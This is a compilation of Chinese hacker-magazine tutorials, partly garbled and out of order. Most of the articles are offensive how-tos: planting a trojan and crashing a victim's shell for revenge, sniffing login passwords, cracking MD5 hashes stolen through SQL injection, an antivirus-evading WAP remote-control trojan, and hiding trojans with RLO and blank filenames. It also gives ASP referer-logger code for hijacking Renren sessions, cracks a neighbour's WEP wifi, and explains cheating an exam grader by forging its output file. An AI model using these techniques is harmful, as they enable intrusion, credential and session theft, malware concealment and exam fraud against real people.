在 D 盘里发现多出了一个名为“垃圾箱.fx”的文件，这个箱子还添加了文件扩展。使用 Wsyscheck、IceSword 等工具也看不到里面的文件，发送到 C32Asm 中竟然提示为空文件。直接使用绿盟 PC 万能精灵的 FileSeek 解锁，原来是 `EXPLORER.exe`。我们再新建一个“垃圾箱”，不过密码问题和答案都不一样，但密码要和刚才设置一样。

使用 C32Asm 分别打开文件，通过对比后发现，从 `00000E9` 到 `00000341` 是可疑的地方，如图5所示。再比较一次就得到了更精确的范围：从 `00000E9` 到 `00001B1`。我们把“破解你”的 `00000E9` 到 `00001B1` 的数据复制到“垃圾箱”里，然后保存。

关闭 C32Asm，打开“垃圾箱”，点通过密码提示找回密码，我们会发现问题变得和“破解你”的一样了，输入“破解你”的答案，OK，和图4中找回密码时一样直接给出了密码。我又新建了另一个密码不一样的密码箱，结果密码也给出来了。

图4

一个更大胆的想法出现了：如果我们把保存的密码替换掉呢？我找到了 `0000022` 到 `00000E9` 的范围，替换掉，输入替换的密码，竟然打开了。那里保存的文件还能使用吗？我又新建了一个密码箱，把文件保存进去，发现有两种加密方式，如图6，一样放了一个，替换掉密码，进去文件竟然都打开了，而且一样能使用。

图5  
图6

安全强度几乎等于没有，个人认为还不如使用密码的 32 位 MD5 进行简单异或要安全。现在明白我为什么叫它“垃圾箱”了吧。在此建议大家选择文件加密工具时一定要慎重。

### 关于二级 C 语言程序设计题的探讨

小全

看了文章的题目后，我相信很多朋友都已经知道我接下来要说什么了吧。是的，我们就来谈谈 C 二级考试机考题中的最后一题。参加过计算机二级考试的朋友应该都有感触，在整个考试中机考部分是最辣手的，而机考中的程序设计题又是最费神的，但分值也是最重的。当然这最后一题也体现了一个人的 C 语言功底，所以很多朋友都会说：“二级不好考！”

其实不然。大家都知道机考题是计算机评分的，前两题就是把评分系统和代码一个个比较，相同就得分，不同就是 0 分。但是程序设计题就不行了，因为程序很灵活，根本无法判断，所以就特地设计出了一个结果比较法。什么叫结果比较法呢？大家请先看下面这段代码：

```c
#include <conio.h>
#include <stdio.h>
#include <stdlib.h>

void fun(int m, int k, int xx[])
{

}

void main()
{
    FILE *wf;
    int m, n, zz[1000];
    system("CLS");
    printf("\nPlease enter two integers: ");
    scanf("%d%d", &m, &n);
    fun(m, n, zz);
    for (m = 0; m < n; m++)
        printf("%d ", zz[m]);
    printf("\n ");
    /****************************/
    wf = fopen("out.dat", "w");
    fun(17, 5, zz);
    for (m = 0; m < 5; m++)
        fprintf(wf, "%d ", zz[m]);
    fclose(wf);
    /****************************/
}
```

没有看懂，我来解释一下注释部分的作用。整个程序就是以写的方式打开 `out.dat` 这个文件，没有的话就创建一个，然后调用题目让我们写的 `fun()` 函数，并将结果写入到 `out.dat` 这个文件中。

那什么是结果比较法呢？就是刚才说的将评分系统里的结果和 `out.dat` 里面的数据进行比较，如果一样，那 40 分就是你的了。讲到这儿应该很明显了吧，只要我们把正确的结果贴到 `out.dat` 中就万事大吉了。

第一，我们要让代码正常编译执行并生成这个 `out.dat` 文件。学过 C 语言的朋友都知道，`fun` 函数前面的数据类型代表返回值类型，如果是 `void` 的话就表示没有返回值，也就是不用写 `return(返回值)`。因为上面的代码中是 `void fun(int m,int k,int xx[])`，所以我们什么也不用做，直接编译就可以了。大家注意，如果是缺省的或是其它类型，那么在 `fun` 函数体里面加上一句 `return 0;` 就可以正常编译执行了。

如图1所示，是我运行程序后以及 `out.dat` 文件中内容的截图。`out.dat` 与程序上的结果是不是一模一样？这说明了我的想法是正确的，呵呵。我们把 `out.dat` 改一下，直接把结果贴上去，如图2。

图1  
图2

很熟悉吧，这是我从机上模拟软件中随机贴上来的一道程序设计题。大家注意看我代码后面的星号部分，可能有的朋友还可以看到在我改了 `out.dat` 后，真正的 `fun` 函数确实是空的，我什么也没有写，但是 40 分确实也拿到手了。呵呵，看到这里大家是不是都有些兴奋啊，可别高兴得太早了，在修改的时候还有很多需要注意的地方。

除了结果要一一对应外，还有就是其输出到 out.dat 中的格式，比如是左对齐还是右对齐，是占几个宽度，还是写一个就空几格，要不要回车换行等等。这个大家都要有充分的把握，不然程序对比的时候有一个不一样，那可就是 0 分了。就比如上例，只要输出一个数之后再加上一个空格就可以了。当然了，通过我们不断地阅读源代码以及练习，再加上细心的修改，应该没有问题的。

刚才讲的是最简单的一种，但是最近我在研究的时候却发现了另一种判断方法，这种方法更加严格和复杂。其实原理还是和上面的一样，是一个一个对比的，但是在难度上加大了，大家请看我下面这段代码：

在 NONO() 函数中打开了两个文件，其中就有我们的 bc5.out，这个文件就是系统用来判断结果的文件。那么 bc5.in 是干吗的呢？在其中的 for 循环中我们可以看出，它先读取 bc5.in 中的一个数据，然后再调用 fun() 函数，fun() 函数处理完后就将结果输入到 bc5.out 中。细心的朋友已经注意到了，它输出的格式后面是 `"%u\n"`，即输出一个无符号整数外还换了一行，循环是从 0 到 19，也就是 20 次，所以这个 bc5.in 文件中一定放的是测试 fun() 函数功能的测试数据。结合源代码和图 3 就可以看出规律了吧。

```c
#include <conio.h>
#include <stdio.h>
#include <windows.h>

unsigned fun(unsigned w)
{
    int n, s=0, s1=1;
    while(w/10)
    {
        n=w%10;
        w=w/10;
        s+=s1*n;
        s1*=10;
    }
    return s;
}

void NONO()
{
    unsigned x;
    int i;
    FILE *rf, *wf;

    rf = fopen("bc5.in", "r");
    wf = fopen("bc5.out", "w");
    for(i=0; i<20; i++){
        fscanf(rf, "%u", &x);
        fprintf(wf, "%u\n", fun(x));
    }
    fclose(rf);
    fclose(wf);
}
```


当 bc5.in 的第一个数是 1234 的时候，out 文件就写入一个 234，接着输入一个回车换行再继续；当 in 文件中是 6456 的时候，out 文件就会在刚才换行的位置上接着写入 456，这样一直把 in 文件中的数据读完，也就是 20 次。

这类判断方法极大地挑战了我们的耐心和细心程度，如果你有一个没输入正确，那可能是前功尽弃了。还是那句话，多多练习和阅读程序代码就能行的。我把对 fun() 函数的解剖去掉，自己单独写了一个 out 文件并交卷，如图 4。从图中可以清楚地看到 C++ 中的 fun() 函数只有 `return 0;`，我只是让它正确地执行并生成了 out 文件，而 out 文件只要按照它程序的意思，也就是格式，一个一个地写入，就可以得满分了。


其 fun() 函数我已经给出了正解，并能正常运行，可以看到……

到这里文章就结束了，我写这篇文章的目的并不是让大家都去破解它、过二级之类的。我只是希望把这个问题提出来给大家去研究、去实践，在不断的积累中去提高自己的 C 语言编程能力，而不是一味地投机取巧。就算那些人过了又有啥用，照样不会。

## 疯狂的复仇——小心我Dir溢出你！

炫风舞（中国屌派联盟）

#### 一、事件起因

前不久，我在网吧中编写炫舞的外挂程序，当时我全身心地投入到了代码中，全然没有注意到旁边有个 MM 一直在看着我……“小心老子 Dir 溢出你！”，如图1。


图1

### 二、什么是Dir溢出？

Dir 是 Windows 系统中的一个用来查看文件及目录情况的命令……只要攻击者得到了你的 CMD 权限，就可以在 telnet 里输入 `dir \\?\AAA（超过260个A）`，最后结果就是“你被 Dir 溢出了”！大家来看下面的一种代码：

```
EventType: BEX    P1: cmd.exe    P2: 5.1.2600.2180
P3: 41107ebc    P4: unknown    P5: 0.0.0.0    P6: 00000000
P7: 00410041    C:\DOCUME~1\injection\LOCALS~1\Temp\WERb61f.dir00\cmd.exe.mdmp ...
```

```
Temp\WERb61f.dir00\cmd.exe.mdmp
C:\DOCUME~1\injection\LOCALS~1\Temp\WERb61f.dir00\appcompat.txt
C:\>%COMSPEC% /K "dir \\?\120多个A"
```

这是在我电脑上运行 Dir 溢出后给出的错误报告……和缓冲区溢出的原理一样，类似现在的 Serv-U、Symantec 溢出的原理也都是类似的。

#### 三、复仇开始

回到正题上来，因为这事，我怒火难消……我使用一个小号 QQ，把资料全部改成了 MM 的，然后添加了那家伙……我再次发了一张艳舞木马的照片给他……


图2


也正好给了我机会，我打开他的 CMD 命令提示符，在 telnet 里输入了指令：`dir \\?\AAA----`（超过260个A），如图3。不一会儿，我就发现他的 QQ 头像变成了灰色，而且好久都没看到再亮起来，估计这小子正“内牛满面”呢，成功搞定！

#### 四、发动攻击

“有主机上线，请注意！”灰鸽子提示了。好家伙，就是他，看来这家伙没有发现木马，反倒是玩上了“穿越火线”，这也正好给了我机会……

#### 五、后记

Dir 溢出，是一个比较危险的攻击方式，有一些 Dir 攻击指令能够造成极大的破坏，比如硬盘被毁坏、网站数据丢失等等。技术永远只是用来研究的，希望广大叉叉记住：千万不要用技术去做违法的事，否则付出的代价会很大的！


半晚东

所谓的“抓包”其实就是“抓取数据包”的简称，指的是“将网络传输发送与接收的数据包进行截获、重发、编解、转存等操作，也可用来检查网络安全，但往往被某些无耻之徒用来网游作弊。”（摘自“抓包”_百度百科）最初接触到“抓包”是几年前还未出现验证码的时候，那时的网络投票系统几乎都会拜倒在“抓包”的石榴裙下，其工作流程一般是这样的：首先是使用经典的抓包工具 WinSock Expert 来抓取手工投票时本地机与投票服务器之间的数据，然后用 NC 进行数据包的伪造和提交，最后就是“刷票”成功。不过现在这种方法已经受到了限制 IP、限制时间和验证码的严峻挑战，但这并不等于说“抓包”已经失去了它的立足之地；相反，其实并不需要复杂的知识，你只需要轻点几下鼠标就能见识见识“抓包”到底有多厉害。下面，大家不妨就随我一起进行一次菜鸟抓包初体验吧！

使用的抓包工具是 SmartSniff，当然也可以使用其它的，想必最终结果都会是一样的。在此我进行了三次成功的实验，目标分别是 126 信箱、某管理系统和在线 Flash。另外，建议大家在进行抓包实验时，最好是将其他与网络进行数据交换的程序先暂时退出，否则你会被淹没在数据的海洋中（抓取的数据包太多）。


### 1、抓取126信箱的用户名和密码

首先双击运行抓包工具 SmartSniff，先不要点击最左上角的“开始捕获”绿色按钮（下同）。然后打开浏览器，进入 126 信箱的登录页面（www.126.com），分别在“用户名”和“密码”后的输入框中输入对应的信息，接着点击 SmartSniff 的“开始捕获”按钮，再点击登录 126 信箱页面中的“登录”按钮。当成功登录进入 126 信箱后，马上点击 SmartSniff 的红色“停止捕获”按钮，此时我们已经得到了若干数据，也就是说完成了“抓包”工作。接下来在 SmartSniff 所抓取的数据包中仔细查找一下，如图1，看到目标地址是“http://www.126.com”，用户名和密码也都分别在“user=”和“password=”显示得一清二楚。


图3

### 2、抓取某管理系统的用户名和密码

实验过程与刚才如出一辙，只不过目标换成了某高校研究生信息管理系统。同样是在“学号”（相当于“用户名”）和“密码”处输入相关信息后“登录”，成功后“停止捕获”，之后在抓取的数据包中也是清清楚楚看到了用户名（txtusername=）和密码（txtpassword=），如图2。

## 3、抓取某在线Flash MV的下载地址

前几年流行的下载在线 Flash MV 做法是通过浏览器的“查看源文件”方法，再用记事本打开文本文件并用 Ctrl-F 进行 .swf（或 .flv）的查找，一般都能奏效。其实，使用抓包的方法也一样能够办到。以“酷乐吧”（http://www.kole8.com/flash/big_class_info.asp?bigClassId=14）为例，先在 SmartSniff 点击“开始捕获”按钮，接着点击“酷乐吧”中的任意一首 Flash MV（如“水手-迪克牛仔”），在打开其播放页面（http://www.kole8.com/flash/view_flash.asp?id=6803）开始播放后停止捕获，然后在 SmartSniff 中就会很容易发现有“/flash/flash-file/flash-file/2009/12/2009122121143382215.swf”的“半截”地址。此时只要将该网站的域名“http://www.kole8.com”与之拼接成“http://www.kole8.com/flash/flash-file/flash-file/2009/12/2009122121143382215.swf”即可得到这首 Flash MV 的完整下载地址，如图3。将这个地址复制到迅雷中下载，很快就会在本地机上得到它。

当然，由于一些软件本身的加密或是网页数据进行处理的原因，还有许多情况是“抓包”也不能得到“用户名”及“密码”之类敏感信息的，像 QQ、联众等。不过，虽然“抓包”不是万能的，但通过这三个非常简单的小实验，大家是不是也看到了“抓包”的厉害之处了呢？

（文章中所用到的 SmartSniff 已收藏到光盘中）

## 不花钱 破解MD5值

txcbg


图1

平时我们通过 SQL 注入漏洞等获得的管理员用户信息中，密码往往是经过 MD5 加密的（用户名也有加密的，不过不多），这时候能否破解出密码的 MD5 值就显得非常重要了。能破解出来就可以进后台想办法拿 webshell；破解不出来的话，看着密码的 MD5 值干着急。

现在破解 MD5 比较可行的两种方法是利用彩虹表文件本地破解和通过破解网站在线破解。利用彩虹表文件本地破解，对动辄几百 G 甚至上 T 大小的彩虹表文件以及对机器较高的配置要求，并不适合每个人使用。通过破解网站在线破解则要方便得多，只要能上网就能破解，对访问者的机器配置没什么要求，破解速度也很快。几年之前，国内的三大在线破解网站是我们的最爱，后来 www.cmd5.com 收费了，再后来，国内的在线破解网站 www.md5.com.cn 和 www.md5.org.cn 也收费了，稍微复杂点的密码要交钱后才能查询。比如 admin321 经过加密后的 MD5 值 24acbe3c2bfdcaa 在 www.cmd5.com 查询都显示是一条付费记录，如图1、图2。


图2

“已查到，这是一条付费记录”，对这条提示大家应该比较熟悉吧。在 www.cmd5.com 查询 MD5 值如果查到并且是收费记录时就会显示这个。假如你在破解一个 MD5 时在国内破解网站显示是收费记录，你又不想花钱，也不想找别人帮忙，还有没有别的办法呢？有的，你可以尝试下国外的在线破解网站。国外也有不少非常不错的在线破解网站，而且是免费的。也许国外的 MD5 值大多数是 32 位的吧，我用的几个国外的 MD5 在线破解网站只支持 32 位 MD5 值的破解，不支持 16 位 MD5 值的破解，也许算个小缺点吧。不过你要破解的 MD5 值是 32 位的，破解出来的几率还是很大的。有的在国内在线破解网站都破解不出来的 MD5 值，可以在这些国外在线破解网站上免费破解出来，比如 b6d018c4182c51b1a37084a759966413（明文为 ShiWa02）这个 MD5 值在国内的三个在线破解网站上都没查到结果，在国外的一个在线网站上却查询出来了，如图3、图4。


图3

下面给大家介绍两个比较好用的国外在线破解网站：

- 1. http://www.c0llision.net/webcrack.php

“http://www.c0llision.net/webcrack.php”是一个非常不错的国外在线网站，只要是 32 位 MD5 值，破解出来的几率非常大，破解页面打开后如图5所示。


图4


图5

“http://www.c0llision.net/webcrack.php”除了可以破解 MD5 值外，还可以破解 lm hash，并且支持同时破解多条记录。要破解 MD5 记录，把要破解的 MD5 值复制到网页中间的大输入框中（多条 MD5 的话每条一行），输入验证码，然后点“submit”按钮后就可以把查询提交上去了，如图6。


图6

如果已经有人查询过你查询的这条 MD5 记录，会直接显示结果，破解出来的话“status”显示 cracked，并会在“plain-text”下面给出结果；没破解出来“status”会显示 not cracked。

如果之前没有人查询过你要破解的这条 MD5 记录，“status”首先会显示 added，也就是添加到了服务器的查询队列中，过一会儿点击“refresh”按钮就可以查看查询结果了，如图7。点“refresh”按钮后显示 not cracked，说明没破解出来，如图8；如果破解出来的话会显示类似图9所示。


图8


图7


图9

- 2. http://opencrack.hashkiller.com

“http://opencrack.hashkiller.com”也是一个不错的在线破解器网站，在这个网站不但可以查询 MD5 值，还可以把你破解出的结果上传到该网站，和他人分享你的破解成果。要破解 MD5 值，在“Search MD5 in OpenCrack”下面的输入框中输入你要破解的 MD5 值，然后点“Search MD5”按钮进行破解，如图10。如果破解出来的话会直接显示破解结果，如图11；如果没有破解出来，则会显示 notfound。


图10


图11

个人觉得“http://www.c0llision.net/webcrack.php”破解的成功率要比“http://opencrack.hashkiller.com”高不少，推荐大家多用前者，呵呵。如果你要破解的 MD5 值是 32 位的，在国内在线破解网站显示是付费记录或根本破解不出来，可以尝试使用一下国外的优秀免费在线破解网站“http://www.c0llision.net/webcrack.php”以及“http://opencrack.hashkiller.com”，很可能会给你带来惊喜哦。

## 用Wap架执行dos命令

最近手机上网越来越热，用手机上网可以干什么呢？听歌、看电影、玩游戏。可是你想过用手机来控制电脑吗？某日小菜我无聊，随便闯入一论坛，看到一个名为“用WAP来控制电脑”的易语言源码，于是我就试了试。觉得还不错，挺实用的，就把这个分享给大家了。

目录下一共有 4 个文件，如图1，一个是 E 源码，另外三个是传到你的空间上的（一般主机都支持 WAP）。然后打开 E 源码，部分代码如图2所示，把“/dos.txt”前面的网址改成自己的就可以了，dos.txt 是自动生成的。改好以后我们先来运行这个程序，然后在手机上打开你刚才改的那个地址。


```
请求网站 index.wml / post.asp / request.asp
将文本写入 `http://www.155ban.com/yk/dos.txt`
条件判断后写入文件并执行程序（示例：`c:\gbxsq.exe`）
```


由于手机照片拍不清楚，我就在电脑上模拟 WAP 浏览器来测试了，如图3所示。点击执行命令后我们就可以看到效果了，如图4，大家看到了吧。

还有很多功能大家可以通过修改 index.wml 来实现。现在我们来看下生成 EXE 文件后杀毒软件的反应，如图5所示，36 个杀软中只有 9 个杀软报毒了。我们再来看下 360，如图6所示，360 也没问题，顺利通过。

好了，就写到这儿了，希望大家还有更好的办法来利用它。

> （文章中所用到的简单WAP手机远控v1.0源码已收录到光盘中）

## 教小菜如何利用伪装途径免绝终结自己的小木马

下面就教大家如何伪装自己的小木马。

- 1. 替换文件图标

这个比较简单，制作方法和图1的制作方法是一样的，都是用替换图标的软件替换。与其不同并且更重要的一点是这里替换后……


作为一个好木马，制作免杀，从而逃避杀毒软件的查杀是必不可少的。但是图标是一个图片的样子，后缀却是 .exe 的小马，只要是懂一些电脑常识的小菜绝对都不会点击的，如图1。

## 隐爪黑客


换的图标是文件夹或是 RAR 的图标。说白了，就是利用你的惯性思维，看你反应快不快了，如图2。

### 2、完全隐藏文件


这个比较麻烦一些，首先要准备一个透明的图片。打开图标替换软件（如 ResHacker），将图标替换为透明图标，如图3、图4。


替换完图标后会变成透明，但后面仍有文件名。接下来需要去掉文件名：在同目录新建批处理，运行后重命名文件。

```  
ren 你的木马的文件名.exe （按住 Alt+输入小键盘 255）.exe
```


若未开启“隐藏已知文件类型的扩展名”，效果会较明显；开启后更隐蔽。还可通过 autorun.inf、rar 自解压或批处理调用以增强迷惑性。

```  
attrib +s +h （按住 Alt+小键盘的 255）.exe
```


### 3、另类的重命名

本方法是本文重点：把木马伪装成图片后，重命名并插入 Unicode 控制字符 RLO，再输入类似“pmb.86bfd...exe”的名称。这样在常见视图下前面的“.exe”会被视觉隐藏。


如图9所示，文件名在平铺模式下看起来像图片文件。作者解释了 RLO（right-to-left override）会改变显示方向，从而制造“扩展名在中间或前部被误读”的效果。

需要注意：此类文件通常要配合压缩包传播，文件名可伪装成吸引性内容。文末强调防范方法是提高安全意识。


现在很多人使用 Windows 7 系统。文中建议在系统安装后对各类软件安装程序进行限制与防护设置，以减少被“实验田”式滥装软件拖慢系统的机会。

#### 傻瓜黑客

### 第一招：封杀“安装服务”


图1

用鼠标右击桌面上“我的电脑”选择“管理”，在弹出的“计算机管理”窗口中的左侧窗格内单击“服务和应用程序”——“服务”，然后在右侧窗格中双击名称为“Windows Installer”的服务，如图1。在弹出的“Windows Installer 的属性（本地计算机）”窗口中，仅从名字上就可以看出，这是一个管理安装的服务，微软对它的描述是“添加、修改和删除以 Windows 安装程序（*.msi）的软件包提供的应用程序。如果禁用了此服务，任何完全依赖它的服务不会被启动”。在“常规”选项卡中将启动类型由“手动”设置成“禁用”，最后单击“确定”按钮就可以了。现在找个安装程序试一下（比如 Flash 8），一会儿 Win7 就弹出了“Windows Installer Installation Wrapper”错误对话框，如图2，提示用户安装程序终止。


图2

### 第二招：堵截源安装媒体

还是用鼠标右击桌面上“我的电脑”，选择“组策略”，在打开的“本地组策略编辑器”窗口的左侧窗格中依次单击“用户配置”——“管理模板”——“Windows 组件”——“Windows Installer”，接着到右侧窗格中双击“阻止从可移动介质进行任何安装”项，如图3，在弹出的窗口中将系统默认的“未配置”更改为“已启用”，最后单击“确定”按钮就可以防止用户从 U 盘、光驱等可移动介质调用软件安装程序进行安装了。


图3

### Unicode控制符之文件名欺骗


远程控制程序的伪装有很多方法，最常用的方法是在文件名上做功夫，比如命名为 1.gif.exe，如果将“我的电脑”——“工具”——“文件夹选项”中的“隐藏已知文件和文件夹”前面的勾去掉，那么这种方法就失效了。通过插入 Unicode 控制符可以实现给可执行文件命名为以 .gif、.txt 等非可执行文件的后缀名。下面以 notepad.exe 为例来说明这种文件名欺骗技巧。

#### 傻瓜黑客

### 1、修改 notepad 文件名后缀

选中 notepad.exe，右键“重命名”，选中 .exe 前面的名字将光标位置移到 .exe 的“.”前面，右键选择“插入 Unicode 控制字符”——“RLO Start of right-to-left override”，从右到左的覆盖，如图1所示，然后输入 fig（gif 文件后缀倒着输入）……


### 2、制作 gif 图标

这种方法结合图标伪装比较好，以 gif 文件为例，首先从网上找一张 gif 图片，用 QQ 截图功能或者其它类似截图功能的程序，把 gif 文件的图标截下来，然后运行 Ico 图标提取编辑专家，直接 Ctrl+V 将图标粘贴在程序中……


图标制作完成，一般程序通过图标改啊改即可修改，软件运行如图5所示。在“打开要修改的文件”中单击“浏览”，选择要修改图标的程序，下面选择 ICO 图标文件。有些时候这款工具无法修改成功，此时可以使用 exescope 或 resourcehacker 来修改程序的资源文件即可。


内容很简单，关键是活学活用。这种方法适合于上传恶意文件成功后的隐匿，在其它第三方软件中还是提示应用程序，比如 vagaa、winrar 中。好了，文章就到这里。（文章中所用到的 1.ico、icosea、图标改啊改已收到光盘中）

## 人人网最新WAP验证漏洞

EchoEye / 侯其涛 [B.B.E]

这天无聊，就在 X.F.Y.F 的博客上闲逛，看到了一个题名为“renren wap 身份认证缺陷”的文章，简单地描述了 3g.renren.com 的认证方式是采用 url authentication token 进行，攻击者可以使用几种途径获取到 authentication token……

爽了，只要我们得到了他人手机登录校内后的网址，就等于有了他人的管理权限。文中并没有提供具体的利用方法，应该是考虑到了安全的原因。我就百度了下这篇文章的名字，发现在一个叫“俯瞰 Blog”中贴出了漏洞的更具体内容。相信在这篇文字刊登的时候漏洞已经补上了。

下面我就来和大家说下漏洞的具体利用过程吧，其实还是比较简单的，因为我们的目标是获得他人用手机登录人人网时的 url 地址，我们可以通过写一个比较吸引别人的日志，然后丢下一个连接地址，等待他人去点，那个地址会记录来访人的 REFERER，也就是他的来源地址。在这里我们得到的就是 url 地址，具体的代码为：

```asp
<%
Const ForAppending=8
Const Create=true
Dim fso
Dim ts
Dim MyFileName

a=Request.ServerVariables("HTTP_REFERER")
MyFileName=server.MapPath("referer.txt")
Set fso=server.createobject("Scripting.filesystemobject")
Set ts=fso.OpenTextFile(MyFileName,ForAppending,Create)
ts.writeline a
ts.writeline "-------------------------"
Set ts=Nothing
Set fso=Nothing
%>
```

这里比较简单，就是通过 Request.ServerVariables("HTTP_REFERER") 获取 referer，然后把得到的 referer 保存在和 asp 文件相同目录的 referer.txt 中，这时候我们就可以通过这个得到的 url 去访问他人的主页了。我们具体地操作一下……然后再去查看我们网站目录下的 referer.txt 文件，会找到地址：

> “http://3g.renren.com/home.do?sid=...&bm=...&f=1&w=1&”

由于安全起见我去掉了部分字符，接着我们关闭掉浏览器，或者选择人人网页上的退出也行。我们再次输入这个网址，就会发现已经可以直接进入人人网了……当然我们可以通过别的方法得到 referer，比如 XSS，或者如“情 Blog”中所说的……危害还是比较大的，请大家慎重使用，也希望人人网能早日修补漏洞。

## 电脑上手机网 首选Winwap！


以前在杂志上有很多介绍电脑上手机网的文章，但小菜我始终觉得不够傻瓜化。好不容易熬到了放假，就在网上闲逛，还真让我找到了一款不用代理就可以上手机网的浏览器——winwap。

winwap 是模拟 WAP 手机上网的一个浏览器：它可以将 .wml 格式的网页内容保存成 .html 或者 .txt 文件格式。此外，它还支持一般浏览器所有的功能，例如打印、书签、剪切拷贝、自动保存最近浏览的网页地址、多窗口浏览、自定义调整窗口的大小、支持各种多媒体和 HTTP 文件传输协议。

多窗口浏览器可以允许同时打开多个页面，支持所有的 WAP 2.0 规范，还支持标记语言：

- WML 2.0
- HTML 4.01
- CSS (WAP CSS, CSS 2.1)
- xHTML Mobile Profile 1.2
- xHTML 1.1


> 图1

#### 傻瓜黑客

怎么样，大家心动了吧，而且 winwap 还有中文版。winwap 的安装很简单，如图1所示，保持默认一路点击 next 就可以了，如图2，当然我们也可以选择不建立桌面图标。


安装好后选择简体中文，注意 winwap 是需要注册的，如图3，企鹅邮箱的只需要填好邮箱就可以了，如果不注册的话会有功能的限制。winwap 的功能很多，基本保持默认设置就行了，如图4，可以使用代理。

下面就可以试试 winwap 了，我们首先访问手机网易网：www.3g.163.com，如图5，还有 3gqq，如图6。都可以模拟出来，但我发现速度不是很理想，不知道是什么原因。我又挂上了美国代理，试着访问了 youtube，竟然上了手机版的 youtube，如图7。


winwap 还有很多功能都没有用到，有待大家去发掘，但是 winwap 是电脑上手机网的利器却已经凸显出来了。

> （文章中所用到的 winwap 已收录到光盘中）


牛晓东

终于可以在家免费无线上网了！说出来不怕大家笑话：自己搞计算机十四五年了，一直都是在单位使用“免费”的 LAN（局域网），互联网的发展虽说还没到让人每时每刻都离不开的地步，但还是已经习惯了每天进进邮箱、聊聊 QQ、查查资料和看看新闻。

#### 傻瓜黑客

现在无线技术越来越成熟，居民小区内不少家庭都配有无线路由器以便于组建家庭多台电脑同时无线上网，我等穷人如何利用好这些闲置资源来实现随时随地免费无线上网呢？如果你已经有一台内置无线上网的本本儿，那么只需再“投资”300 大洋就能轻松实现这样的目标！

然后就会在弹出的“福州9点无线网络有限公司”客服窗口中像 QQ 聊天一样交流，可以咨询相关问题，如图2，如果你决定要购买的话就在此留下自己的联系地址和手机号码，两三天就会收到快递公司的产品（此时再付款）。安装的方法非常简单，只需将天线接好再用线与本本儿的 USB 接口相接即可，然后将驱动盘放入光驱装驱动（注意选择操作系统是 XP 还是 Windows7），最后重启。


图1

运行刚刚安装的 ALFA Wireless LAN Utility 程序，选择其中的“可用网络”选项卡后，很快我们就会看到搜索到的无线网络，如图3，如果不使用“无线宝”的话，一个信号也搜索不到。最左侧的“SSID”是“Service Set Identifier”的缩写，即“服务集标识”，说白了就是该无线网络的名称。“加密”项中有“无”、“WEP”和“TKIP”等分类，“无”就代表未加密的无线网络，可直接试用；“TKIP”和“WPA”的破解难度较大，不在本文讨论之列；“WEP”是“Wired Equivalent Privacy”的缩写，这种加密被破解的可能性很大，使用频率也非常高。下面就随笔者一起踏上破解无线路由器 WEP 密码之旅吧！


图2


图4


图3

从随机光盘中运行其中的“windows 破解系统安装.exe”（即“无线路由安全检测工具 1.0”），其实这就是一个虚拟机 Linux 系统，如图4。启动运行之后，系统会提示我们“没有找到网卡！”，单击“虚拟机”－“可移动设备”－“USB 设备”－“Realtek USB 设备（端口1）”，如图5，然后在虚拟桌面上双击运行“Spoonwep”，运行界面的第一个“SPOONWEP SETTINGS”（设置）选项卡中，将“NET CARD”设置为“WLAN0”、“DRIVER”设置为“NORMAL”、“MODE”设置为“UNKNOWN VICTIM”，如图6，然后单击下方的“Next”按钮。

首先需要购买一台“无线宝”，不建议使用“卡皇”、“卡王”（辐射严重超标且容易损坏），大家可以到“无线宝”的官方网站（http://www.fjfzq.cn/wxbsm.html，如图1）上查看相关的产品介绍说明。开始笔者也是抱着试试看的态度，没想到购买的过程超级简单而且最终的效果没得说，在主页上单击“您要了解全球最强信号的无线网卡吗？”窗口中的“接受”按钮，

进入“VICTIMS DISCOVERY”选项卡后，保持左上方的“CHAN HOPPING”不变，单击右上方的“LAUNCH”按钮开始搜索网络，如图7，此时“LAUNCH”按钮会变为“ABORT”按钮。很快，下方就会搜索出若干无线网络信号，如图8：从路由广播名称（ESSID）、路由的 MAC 地址到使用的频道（CHAN）、信号强度（POW），信息比较丰富。

#### 傻瓜黑客

要注意的是，数据 DATA 项如果一直为“0”的话基本上是无法破解的（可另换一时间段再试）；空白的 CLIS 项表示无客户端（打勾则代表“有”），有客户端表示正有人在使用该无线网络，破解只是个时间问题（如果没有打钩还是建议换个时间段再试）。单击选中搜索出的“TP-LINK_3A966E”项后，单击下方的“SELECTION OK”按钮。


进入“ATTACK PANEL”选项卡后，将“LAUNCH”处设置为“P0841 REPLAY ATTACK”，“Deauth”处设置为“??? LENGTH(CR.AT 10000IVS)”，其它的选项保持不变，单击左上方的“LAUNCH”按钮开始破解密码，如图9。破解的速度除了与机器本身的运算速度有关外，最主要的还是要看所搜索出的无线信号强度，一般抓包到 30000（最多 100000）左右就会有结果了，此时我们会得到“WEP KEY CRACKED”的提示：“ATTACK FINISHED: WEP Key:[38:31:36:32:36]”，如图10。

#### 傻瓜黑客

这样我们就拿到密码了——“3831363236”（就是方框号中不动的是中间的“信号强度”和“链接质量”分别是 92% 和 89%，如图14。下面，就是见证奇迹的时刻了，打开 360 安全浏览器，看看百度新闻，呵呵，无线信号的状态也是“非常好”，如图15，再开迅雷、挂 QQ，一点儿问题没有。


图11


图13


图12


图14

现在已经完成破解任务了，关闭虚拟机中的“无线路由安全检测工具”，如图11，再回到 Windows 中的“ALFA Wireless LAN Utility”——“可用网络”，找到刚才破解的“TP-LINK_3A966E”项，如图12，双击后会弹出“无线网络属性”窗口，其它的都不用动，只需在最下方的“网络密钥”和“确认网络密钥”处两次输入刚才破解得到的密码“3831363236”，最后单击“确定”按钮，如图13。单击选择“一般”选项卡，看到了吗，“状态”为“已关联”，“速度”为“54Mbps”，“类型”为“基础架构”，“加密”为“WEP”，最为让人激动的是中间的“信号强度”和“链接质量”分别是 92% 和 89%。


图15

## 小菜也来过把瘾力破解webshell

相信不少的小菜对密码破解这门艺术感兴趣，最近闲着无聊我就去找了几个黑客安全小游戏来玩下顺便打发下自己的时间，我在玩一个黑客小游戏时正巧牵涉到有关的知识，在此我就写给各位小菜朋友参考一下，希望对刚入门的新手有所帮助。

#### 一、准备工具

- 1. 渤雪 beta7、渤雪 Beta 7 中文补丁 Net-Monkey 汉化包

#### 傻瓜黑客

“瀚雪”是小榕在2000年10月发布的一个基于Web探测器，利用“瀚雪”可以轻松地完成基于Web形式的各种密码猜测工作，例如E-mail、论坛中的注册用户密码等。软件采取多线程编写，除了支持字典和穷举以外，最大的特色是可以自己编写猜测规则，如可按照中文拼音或者英文单词拼写规则随机组合出字典文件，最大程度地保证了猜测的准确性。

```asp
End If  '结束IF
%>
```

#### 2、易优超级字典生成器 3.35

从名字上就可以知道，这是一款很强大的密码生成器，可以制作生日密码字典、电话密码等，不过生成比较大的密码字典时，有时会出现假死的状况。

